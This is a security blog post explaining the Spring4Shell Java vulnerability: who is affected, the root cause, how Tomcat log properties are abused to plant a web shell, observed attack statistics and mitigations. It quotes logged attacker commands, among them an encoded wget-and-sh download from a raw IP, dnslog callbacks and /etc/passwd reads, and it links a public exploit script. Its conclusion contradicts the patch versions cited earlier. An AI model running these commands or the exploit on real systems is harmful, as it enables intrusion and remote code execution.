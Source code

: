 ```yaml
---
title: "Spring4shell: A Critical Vulnerability in the Spring Java Framework"
date: 2022-03-30 11:33:00 +0800
categories: [Vulnerabilities, 0day]
tags: [spring4shell, 0day, vulnerability, critical, spring, java, framework]
author: adil_soybali
---
```


## Executive Summary

On March 29th, 2022, a Chinese Twitter account published a PoC of 0-Day vulnerability Spring4Shell or another name SpringShell in the famous java framework Spring. A CVE was added on March 31st, 2022 by the Spring developers as [CVE-2022-22965](https://nvd.nist.gov/vuln/detail/cve-2022-22965). Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. Exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. That vulnerability is fixed in 2.6.6; see [the Spring blog for details](https://spring.io/blog/2022/03/31/spring-boot-2-6-6-available-now).

## **Affected Software and Versions**

These are the requirements for the exploitation:

- Running on JDK 9 or higher
- [Packaged as a traditional WAR](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#howto.traditional-deployment) and deployed on a standalone Servlet container. Typical Spring Boot deployments using [an embedded Servlet container](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#features.developing-web-applications.embedded-container) or [reactive web server](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#features.developing-web-applications.reactive-server) are not impacted.
- `spring-webmvc` or `spring-webflux` dependency.
- Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions.

If your application existing these requirements, it may be vulnerable. Please look at mitigation suggestions and apply immediately.

## Impact of Spring4Shell

NVD (National Vulnerability Database) gave a CVSS v3.1 score of 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) to Spring4Shell due to the criticality that the exploit does not need any authentication or authorization. Spring4Shell allows attackers to get remote code execution in the context of the user that is running the vulnerable application.

## Spring4shell Technical Details

The "getCachedIntrospectionResults" method of the Spring framework causes this vulnerability, because of wrongly exposing the class object.

Vulnerable Code Snippet:

```jsx
public class Greeting {
		private long id;
		private String content;
		public long getId() {
	 			return id;
		}
		public String getContent() { 
			return content;
		}
}
```

And controller's code:

```jsx
@PostMapping("/test")
	 public String greetingSubmit(@ModelAttribute Greeting greeting, Model model) {
	 return "hello";
	 }
```

The vulnerability in Spring4Shell is caused by the "getCachedIntrospectionResults" method of the Spring framework, which wrongly exposes the class object. This class object has a reference to the POJO (Plain Old Java Object) where all HTTP parameters are mapped. If the application is running on Apache Tomcat, an attacker can exploit this vulnerability by using the class variable "class.module.classLoader.resources.context.parent.pipeline.firstpath" to control an AccessLogValve object and manipulate its properties to write a web shell at the web root, thereby obtaining remote command execution.

## Spring4Shell Exploitation

Exploitation is similar to [CVE-2010-1622](http://blog.o0o.nu/2010/06/cve-2010-1622.html). 

The properties are as follows:

1. **`class.module.classLoader.resources.context.parent.pipeline.first.pattern`** - This property determines the content of the log file, and it is where you would want to insert your web shell code.
2. **`class.module.classLoader.resources.context.parent.pipeline.first.prefix`** - This property refers to the name of the log file, and it is where you would name your web shell file.
3. **`class.module.classLoader.resources.context.parent.pipeline.first.suffix`** - This property indicates the extension of the log file, which must be set to .jsp.
4. **`class.module.classLoader.resources.context.parent.pipeline.first.directory`** - This property specifies the location of the log file. If the root directory is remotely accessible, you can use webapps/ROOT as the value for the directory property, allowing you to interact with your web shell by accessing /.jsp
5. **`class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`** - This property is optional and it helps with a quality of life improvement for the attacker as it removes cumbersome logging timestamps from the output if the property is left blank.

There is a python script for exploitation: [https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py)

Using: python3 exploit.py --url http://TARGET.com

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled.png)

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled1.png)

## Statistics About Spring4Shell

According to the 360 netlab’s report, these are information about threat actors and exploitation of Spring4Shell:

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled2.png)

Top 10 country statistics:

```
United States      92
The Netherlands    49
Germany            30
China              21
France              6
Luxembourg          6
Sweden              6
Switzerland         5
Ukraine             5
Austria             4
```

Webshell and test file upload statistics:

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled3.png)

Some of used exploit commands so far:

```jsx
echo%20ddfdsfasdfasd
echo%20fdsafasdfasd
echo%202222222
ls
ls%20/tmp/
whoami
%2Fbin%2Fsh%2F-c%24%7BIFS%7D%27cd%24%7BIFS%7D%2Ftmp%3Bwget%24%7BIFS%7Dhttp%3A%2F%2F107.174.133.167%2Ft.sh%24%7BIFS%7D-O-%A6sh%24%7BIFS%7DSpringCore%3B%27 
cat+/etc/passwd 
chdir 
cmd /c dir 
cmd /c net user 
curl+http://111.4vcrkb.dnslog.cn/1.jpg 
curl+http://12121.4vcrkb.dnslog.cn/1.jpg 
curl+http://35456.4vcrkb.dnslog.cn/1.jpg 
dir 
echo 
echo 8888888888  
echo %USERNAME%  
echo %computername% 
echo </xss> 
echo fucker_test_test 
echo rinima  
echo%20%3Csvg%20onload=confirm`xss`%3E 
echo%20%3Csvg%20onload=confirm`xsssssss`%3E 
echo%20ddfdsfasdfasd 
echo%20fdsafasdfasd 
echo%202222222 
echo+22222 
echo+`whoami` 
echo+whoami 
exp
id 
ifconfig 
ls 
ls%20/tmp/ 
ping -n 2 uup0fk.dnslog.cn 
ping uup0fk.dnslog.cn 
uname 
whoami 
whoami%0A
```

## Mitigation suggestions

The preferred solution is to update Spring Framework to **5.3.18** and **5.2.20** or greater. If the application is not able to upgrade Spring Framework, then upgrade Tomcat to **10.0.20**, **9.0.62**, or **8.5.78.** Another solution is downgrading Java to version 8. Also there is a patch too:

[https://github.com/spring-projects/spring-framework/commit/afbff391d8299034cd98af968981504b6ca7b38c](https://github.com/spring-projects/spring-framework/commit/afbff391d8299034cd98af968981504b6ca7b38c)

There is a Yara rule for detecting exploits for Spring4Shell: [https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar)

## Conclusion

Spring4Shell was announced with the PoC published on a Chinese Twitter account on March 29, 2022. Unfortunately, an official patch has not been released yet. Therefore, it was actively used by attackers. It wasn't as exploitable as log4j as it required some requirements for exploitation but still a very critical vulnerability.

1- Executive summary
2- Introduction
3- Explanation of the vulnerability with its impact
4- Explanation of the exploit
5- Current exploitation status (relevant threat groups, attack campaigns)
6- Mitigation suggestions
7- Conclusion

